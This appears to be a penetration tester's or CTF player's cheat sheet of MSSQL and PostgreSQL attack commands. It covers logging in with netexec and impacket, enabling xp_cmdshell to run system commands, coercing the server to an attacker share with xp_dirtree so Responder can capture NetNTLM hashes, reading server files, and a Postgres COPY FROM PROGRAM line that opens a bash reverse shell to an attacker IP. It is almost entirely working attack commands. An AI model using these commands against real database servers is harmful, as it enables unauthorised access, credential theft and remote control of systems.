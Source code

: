 **MSSQL:**
---
```sh
sqsh -S $TARGET_IP:$PORT -U $TARGET_AD\\$USER -P $PASS
```

```shell
netexec mssql $TARGET_IP -u $USER -p $PASSWORD
```

```shell
netexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -L
```

Try to execute command on server:
```shell
netexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -x 'ping $ATTACKER'
```
and on attacker box:
```shell
sudo tcpdump -i tun0 icmp -n
```

Try to start mssql_priv:

```shell
netexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -M mssql_priv
```

One client is mssqlclient.py:

```shell
mssqlclient.py $USER:$PASSWORD@$TARGET_AD
```

Or use impacket to open console:

```shell
impacket-mssqlclient $TARGET_DOMAIN/$TARGET_USER:$TARGET_PASSWORD@$TARGET_NAME
```

```bash
impacket-mssqlclient $USER:$PASS@$TARGET_IP -windows-auth
```

Try:

```mssql
enable_xp_cmdshell
```

or:
```mssql
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';
```

in MSSQL server try, start responder on attacker box:
```sql
xp_dirtree "\\$ATTACKER_IP\fake\share";
```

List files:
---

```sql
xp_dirtree "c:\inetpub\";
xp_dirtree "c:\inetpub\",2,2;
```

**List databases:**
---
```sql
SELECT name, database_id, create_date FROM sys.databases;
```

Show current DB name:
```sql
SELECT db_name();
```

```sql
SELECT STRING_AGG(name, ', ') FROM master..sysdatabases;
```

**List tables in selected DB:**
---
#mssql 

```sql
SELECT * FROM SYSOBJECTS WHERE xtype = 'U';
```

```sql
SELECT name FROM $DB_NAME..sysobjects WHERE xtype = 'U' order by name offset 1 rows fetch next 1 rows only)
```
List columns:
---
```sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = '$COLUMN') order by name offset 1 rows fetch next 1 rows only
```

and offset for each entry
List column:
---
```sql
SELECT top 1 $COLUMN from $TABLE ORDER BY $COLUMN;
```
```sql
SELECT top 1 $COLUMN from $TABLE ORDER BY $COLUMN offset 1 rows fetch next 1 rows only;
```
Leak NetNTLM hashes
---
#hash #ntlm #netntlm #responder
Start responder or another hash grabber to get user and hash:

```bash
sudo responder.py -I tun0
```

and trick the MSSQL server to connect to the "share":

```sql
exec master.dbo.xp_dirtree '//$LOCAL_IP/non/existing'
```

POSTGRES
---

```bash
psql -h $TARGET_IP -U $USER -d postgres
```

```postgresql
-- list databases
\l
-- connect to database
\c $DATABASE
-- display tables
\dt
```

```sql
select pg_ls_dir('/var/www');
select pg_read_file('/var/www/flag.txt' , 0 , 1000000);
```

```sql
CREATE TABLE shell(output text);
COPY shell FROM PROGRAM 'bash -c "/bin/bash -i >& /dev/tcp/$KALI_IP/4444 0>&1"';
```